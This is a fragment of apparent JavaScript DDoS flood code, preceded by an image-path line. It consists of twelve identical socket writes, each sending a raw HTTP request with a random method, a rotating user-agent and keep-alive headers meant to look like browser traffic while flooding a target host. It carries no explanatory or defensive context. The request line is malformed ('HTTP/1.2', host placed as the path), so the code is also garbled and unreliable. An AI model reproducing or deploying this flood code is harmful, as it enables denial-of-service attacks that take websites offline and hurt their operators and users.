 s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
        s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');